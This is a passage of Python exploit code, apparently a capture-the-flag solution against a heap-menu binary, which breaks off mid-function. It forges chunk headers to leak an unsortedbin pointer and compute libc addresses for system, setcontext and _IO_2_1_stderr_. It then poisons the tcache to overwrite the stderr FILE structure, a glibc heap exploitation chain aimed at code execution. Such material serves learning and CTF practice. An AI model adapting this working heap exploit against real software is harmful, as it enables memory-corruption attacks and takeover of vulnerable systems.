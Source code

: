 ```py
  input("WAITING INPUT...")

## exploit ###########################################

def exploit():
  global c

  # Alloc 3 chunks
  #  - A: freed(fast), size=0xF0, align=0x0
  #  - B: alloced    , size=0x20, align=0xF0
  #  - C: freed(fast), size=0x40, align=0x110
  # Then overwrite C's header with prev_size=0xF0, prev_in_use=false
  # Chunk refered by prev_size is allocated later.
  create(0, 0xF0, 0, b"A"*0x10 + p64(0xF0) + p32(0x40))
  # Alloc 2 chunks, using fastbin(A)
  #  - A1: alloced,         size=0x20, align=0x0
  #  - A2: freed(unsorted), size=0xD0, align=0x20
  # Then overwrite A2's header with 0xF1, which is same with C's prev_size.
  # A2 becomes valid prev chunk of C.
  #
  # Note that this is the first time to call __libc_malloc,
  # where tcache is initialized in chunk of size 0x290, because
  #  - memalign with too small align: calls `__libc_malloc`
  #  - normal memalign: calls `__int_memalign`, where `_int_malloc` is directly called
  # Therefore, tcache is initialized right after chunk C.
  create(1, 0, 0, b"B"*0x18 + p32(0xF1))
  # Alloc 2 chunks, using unsortedbin (A2)
  # A2 is the only chunk in unsortedbin and is a last_remainder,
  # so it is split into 2 chunks.
  #  - A2A: alloced, size=0xD0, align=0x20
  #  - A2B: freed(unsorted), size=0xF0
  # A2B is identical to B. Its fd and bk is overwritten with unsortedbin's addr.
  create(2, 0, 0xC0, "C" * 0x20)

  # Leak unsortedbin addr via fd of B(==A2B)
  show(0)
  unsorted = u64(c.recv(6).ljust(8, b"\x00"))
  print("[+] unsorted bin: " + hex(unsorted))
  printf = unsorted - 0x1b9570
  libcbase = printf - 0x60770
  print("[+] libc base: " + hex(libcbase))
  system = libcbase + 0x50d60
  io_stderr = libcbase + 0x21a6a0
  io_stdout = io_stderr + 0xE0
  io_wfile_jumps = libcbase + 0x2160c0
  main_arena = libcbase + 0x219c80
  setcontext = libcbase + 0x53a30
  print("[+] system: " + hex(system))
  print("[+] _IO_2_1_stderr_: " + hex(io_stderr))
  print("[+] main_arena: " + hex(main_arena))
  print("[+] setcontext: " + hex(setcontext))

  # Overwrite tcache in heap right after C.
  #   counts
  tcache = p16(1) # count of size=0x12 to 1
  tcache = tcache.ljust(0x80, b"\x00") # set other counts to 0
  #   entries
  tcache += p64(io_stderr)
  create(3, 0, 0, b"D"*0x58 + p64(0x291) + tcache)

  # Overwrite _IO_2_1_stderr_
  #  flags
  #  - & _IO_NO_WRITES(0x2): must be 0
```